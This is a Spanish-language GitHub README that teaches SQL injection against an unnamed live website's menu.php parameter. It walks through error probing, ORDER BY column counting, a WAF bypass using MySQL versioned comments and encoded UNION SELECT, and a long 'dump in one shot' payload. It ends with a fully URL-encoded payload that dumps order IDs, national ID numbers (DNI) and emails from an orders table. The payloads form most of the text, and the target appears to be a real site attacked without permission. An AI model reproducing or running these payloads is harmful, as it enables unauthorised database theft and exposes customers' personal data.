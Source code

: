 # SQLi-WAF-bypass
Bypass from 406 status code to 200 OK

Esto no suele ser muy comun, pero voy a enseñar como explotarlo, que payloads usar, como dumpear toda la información etc...

Primero debemos encontrar un target por privacidad no voy a enseñar el enlace de la pagina.

Si intentamos provocar un error en la query podremos ver que nos devuelve blank page en la pagina, por lo tanto es vulnerable a error-based SQLi.

En mi caso he probado una comilla simple (').

![image](https://github.com/user-attachments/assets/c3c872c6-8095-450d-91f2-241d2d55d1f5)

Y la pagina nos devuelve lo siguiente:

![image](https://github.com/user-attachments/assets/d165a496-a75f-435b-8773-0ad48ddd4f90)

Una vez sabemos esto voy a proceder a ver si es vulnerable a ORDER BY.

Y es vulnerable, en este caso la pagina dispone de 14 columnas.

![image](https://github.com/user-attachments/assets/f1fe0c9d-dd09-4916-85a2-426b74c07f55)

Una vez tenemos las columnas procedo a hacer UNION SELECT. Pero veremos que al hacer el union nos devuelve code status 406 (not acceptable)

![image](https://github.com/user-attachments/assets/9a646ca1-0a5b-411a-9cd2-7eee066c808c)

Para bypassear esta restricción usaremos el siguiente payload: /*!50000%55nIoN*/ /*!50000%53eLeCt*/

Y veremos que ahora nos carga la pagina.

![image](https://github.com/user-attachments/assets/36322ce8-5d60-4420-a741-8b8b6e86d4dc)

Pero no encontraremos ninguna columna para inyectar, para eso deberemos añadir el "-" en el id= por ejemplo: https://"dominio"/menu.php?id=-7' /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- -

Una vez hecho podremos ver el número 2 que se refiere a la columna 2 de nuestro UNION, por lo tanto debemos poner nuestro payload ahí para poder extraer información.

![image](https://github.com/user-attachments/assets/582655c5-9a86-4907-92ba-fded75bb0d4e)

Para dumpear la version,usuario,nombre de la base de datos, columnas, tablas etc... Todo en uno he usado este payload:

concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/

Este payload esta hecho por: tr0jan WAF

En este caso se vería así:
![image](https://github.com/user-attachments/assets/b6847a84-2c39-47b1-9094-d29f2ee4e030)

Seguidamente para dumpear deberíamos añadir el nombre de la base de datos, el nombre de la tabla y las columnas a dumpear:

En este caso el paylaod quedaría asi:

https://"dominio"/menu.php?id=-7' /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,(SELECT(@x)FROM(SELECT(@x:=0x00) ,(SELECT(@x)FROM(nombrebasededatos.pedidos)WHERE(@x)IN(@x:=CONCAT(0x20,@x,id_pedido,0x3a,dni_pedido,0x3a,email_pedido,0x3c62723e))))x),3,4,5,6,7,8,9,10,11,12,13,14-- -

Pero si lo ejecutamos nos dará error ya que el WAF elimina las setencias como WHERE, SELECT, FROM, CONCAT etc...

![image](https://github.com/user-attachments/assets/43ba4e64-d805-4677-b4a6-c25965b2a8b8)

Por lo tanto tenemos que hard URL encodear todo el payload.

Quedando el payload así:
https://"dominio"/menu.php?id=-7' /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,%28%53%45%4c%45%43%54%28%40%78%29%46%52%4f%4d%28%53%45%4c%45%43%54%28%40%78%3a%3d%30%78%30%30%29%20%2c%28%53%45%4c%45%43%54%28%40%78%29%46%52%4f%4d%28%28%6e%6f%6d%62%72%65%62%61%73%65%64%65%64%61%74%6f%73%29%2e%70%65%64%69%64%6f%73%29%57%48%45%52%45%28%40%78%29%49%4e%28%40%78%3a%3d%43%4f%4e%43%41%54%28%30%78%32%30%2c%40%78%2c%69%64%5f%70%65%64%69%64%6f%2c%30%78%33%61%2c%64%6e%69%5f%70%65%64%69%64%6f%2c%30%78%33%61%2c%65%6d%61%69%6c%5f%70%65%64%69%64%6f%2c%30%78%33%63%36%32%37%32%33%65%29%29%29%29%78%29,3,4,5,6,7,8,9,10,11,12,13,14-- -

![image](https://github.com/user-attachments/assets/1bb80f35-990f-47b6-9150-935629e76027)

Y esto sería todo, perdonad mi edición de Paint.
